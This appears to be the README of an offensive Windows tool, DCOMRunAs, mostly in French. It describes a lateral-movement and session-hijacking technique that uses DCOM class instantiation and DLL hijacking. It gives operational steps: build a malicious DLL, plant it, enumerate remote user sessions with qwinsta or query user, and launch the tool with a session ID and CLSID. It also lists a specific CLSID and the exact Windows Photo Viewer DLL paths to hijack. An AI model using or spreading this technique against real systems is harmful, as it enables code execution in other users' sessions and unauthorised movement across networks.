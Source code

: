 # DCOMRunAs

DCOMRunAs est une nouvelle méthode de mouvement latéral et de vol de session, non publique. Elle repose sur l'instantiation de classes DCOM dans la sessions d'utilisateurs connectés sur une machine, classes DCOM chargeant une DLL non existante à un endroit du disque inscriptible.

## How

1. Compiler une DLL malveillante qui effectuera les actions que vous voulez faire faire à l'utilisateur cible.

2. La nommer et la déposer à l'endroit adéquat sur le disque de la machine cible.

3. Trouver l'identifiant de session correspondant à l'utilsateur souhaité. Lancer une de ces commandes à distance, dans un `runas /netonly` :

```
qwinsta /server:<remote_host>
query user /server:<remote_host>
```

4. Lancer l'outil avec le bon CLSID et le bon identifiant de session:

```
C:\> DCOMRunAs.exe <sess_id> <CLSID> [remote_host_if_remote]
```

## CLSID utilisables

* `00F2B433-44E4-4D88-B2B0-2698A0A91DBA` (PhotoAcqHWEventHandler)
    * Placer la DLL au endroits suivants :
	    * `C:\Program Files\Windows Photo Viewer\OLEACC.dll`
	    * `C:\Program Files\Windows Photo Viewer\PROPSYS.dll`
	    * `C:\Program Files\Windows Photo Viewer\STI.dll`
	    * `C:\Program Files\Windows Photo Viewer\WINMM.dll`
	    * `C:\Program Files\Windows Photo Viewer\dwmapi.dll`
	    * `C:\Program Files\Windows Photo Viewer\UxTheme.dll`
	    * `C:\Program Files\Windows Photo Viewer\VERSION.dll`

